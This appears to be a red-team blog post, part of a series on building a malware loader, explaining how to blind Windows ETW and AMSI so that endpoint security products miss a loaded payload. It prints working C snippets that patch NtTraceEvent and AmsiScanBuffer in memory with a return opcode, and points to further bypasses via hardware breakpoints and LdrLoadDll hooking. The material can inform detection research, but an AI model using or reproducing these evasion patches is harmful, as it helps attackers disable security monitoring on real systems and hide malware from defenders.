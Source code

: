 ```yaml
---
layout: post
title: Loader Implementation - AMSI and ETW (Part 4)
author: Kolja
categories: [redteam]
tags: [redteam,malware]
---
```


In the last post, we discussed how we can get rid of any hooks placed into our process by an EDR solution. However, there are also other mechanisms provided by Windows, which could help to detect our payload. Two of these are ETW and AMSI. 

## Disclaimer
These posts are done as a reference for myself and to gain a deeper understanding of the discussed topics by explaining them in a blog post. 

The techniques used here are not novel and were documented by other people before. Therefore the use of these posts for threat actors will likely be minimal. Nonetheless, I decided against releasing a full PoC implementation and will instead only provide code snippets as part of the posts. All of the credit should go to the people, that did the original research on the techniques used. 

## Background

### ETW
Event Tracing for Windows collects events from a process, which can then be retrieved e.g. by an EDR or AV solution. This could allow the detection of our payload. An article, that discusses more details can be found [here](https://www.mdsec.co.uk/2020/03/hiding-your-net-etw/). An easy way to see the effect of patching ETW is using the process hacker after loading a C# assembly. The following screenshot was taken without patching ETW:

![](/assets/process_hacker_without_patch.png)

As we can see it is possible to see, that Rubeus was loaded into our process. If the Process Hacker is aware of this, then an EDR can also detect this. The next screenshot shows the same window, but this time ETW was patched before the C# assembly was loaded:
![](/assets/process_hacker_with_patch.png)

As we can see there is no information about the loaded assemblies available.

### AMSI
AMSI is another feature provided by Microsoft. Here an EDR or AV solution can register as a provider and will then get handed e.g. C# assemblies or PowerShell scripts before they are executed. This is done automatically e.g. while loading a C# assembly. Our payload would be unencrypted at this point and could therefore be detected. 

As both ETW and AMSI are implemented in user space we can interfere with them from user space. Note, however, that attacking these features might in itself lead to detection and therefore this is a place where it might make sense to use more creative solutions than done in this post.

## Patching functions
Similar to the hooks placed by EDRs we can simply modify functions, that are needed for ETW or AMSI.  Note that both locations at which I am currently patching functions are well-known and likely detected by at least some EDRs.

### ETW
For ETW the `NtTraceEvent` syscall is used to turn over this information to the kernel from which it can be later retrieved. Therefore patching this syscall in `ntdll.dll` so that it does not hand over the information should disable the feature. There are also other functions related to ETW, but the `NtTaceEvent` function seems to be central to the functionality of ETW and therefore a good option. A PoC can be found [here](https://gist.github.com/xpn/fabc89c6dc52e038592f3fb9d1374673). The implementation in my loader looks as follows:
```
// Get a handle to ntdll
HANDLE ntdll_handle = GetModuleHandle("ntdll.dll");

// Get the address of NtTraceEvent
LPVOID nttraceevent_address = GetProcAddress(ntdll_handle, "NtTraceEvent");

// We need a copy as ntprotectvirtualmemory might overwrite our address
LPVOID nttraceevent_address_copy = nttraceevent_address;

// Change the protections of the function so we can write
DWORD oldprotect = 0;
SIZE_T size = 4096;
pNtProtectVirtualMemory((HANDLE)-1, &nttraceevent_address_copy, &size, PAGE_EXECUTE_READWRITE, &oldprotect);

// Write a return opcode at offset 3
memcpy(nttraceevent_address+3, "\xc3", 1); // ret

// Change the protections back to the original ones
pNtProtectVirtualMemory((HANDLE)-1, &nttraceevent_address, &size, PAGE_EXECUTE_READ,&oldprotect);
```

### AMSI 
For AMSI we can patch for example the `AmsiScanBuffer` function.  The implementation currently looks very similar to the one for ETW, but we additionally need to ensure, that `amsi.dll` is loaded:
```
// Get a handle to amsi.dll
HMODULE amsi_handle = LoadLibraryA("amsi.dll");

// Get the address of the AmsiScanBuffer function
LPVOID amsiscanbuffer_address = GetProcAddress(amsi_handle, "AmsiScanBuffer");

// We need a copy as ntprotectvirtualmemory might overwrite our address
LPVOID amsiscanbuffer_address_copy = amsiscanbuffer_address;

// Change the protections of the function so we can write
DWORD oldprotect = 0;
SIZE_T size = 4096;
NtProtectVirtualMemory((HANDLE)-1, &amsiscanbuffer_address_copy, &size, PAGE_READWRITE,&oldprotect);

// Write a return opcode at offset 3
memcpy(amsiscanbuffer_address+3, "\xc3", 1); // ret

// Change the protections back to the original ones
NtProtectVirtualMemory((HANDLE)-1, &amsiscanbuffer_address, &size, oldprotect,&oldprotect);
```

In my opinion, this is pretty suspicious, as we are forcing a load of `amsi.dll` at a point where it is not needed. A better strategy would be to invoke legit functionality, which causes `amsi.dll` to be loaded, and to then patch it after it was loaded.

## Vectored Exception Handling
There is a blog post [here](https://ethicalchaos.dev/2022/04/17/in-process-patchless-amsi-bypass/) by [EthicalChaos](https://twitter.com/_EthicalChaos_), which discusses evading AMSI without making changes to the functions is memory. This works by setting a hardware breakpoint on the previously discussed functions and then using a Vectored Exception Handler to handle this hardware breakpoint. Our exception handler can then force the function to return and specify a return value indicating, that everything went well. An implementation can be found [here](https://gist.github.com/CCob/fe3b63d80890fafeca982f76c8a3efdf).

## Library Loads (AMSI)
Another idea for disabling AMSI is to prevent `amsi.dll` from being loaded. This could e.g. be done by adding a hook to `LdrLoadDll` in `ntdll.dll` to filter the DLLs we allow our process to load. This is done by [batsec](https://twitter.com/_batsec_) [here](https://gist.github.com/bats3c/59932dfa1f5bb23dd36071119b91af0f).

## Summary
In this post, we took a look at disabling ETW and AMSI for our process, which is especially relevant for loading C# executables. In the next post, we will finally be discussing how to load our actual payload and how well the loader fares against security products.
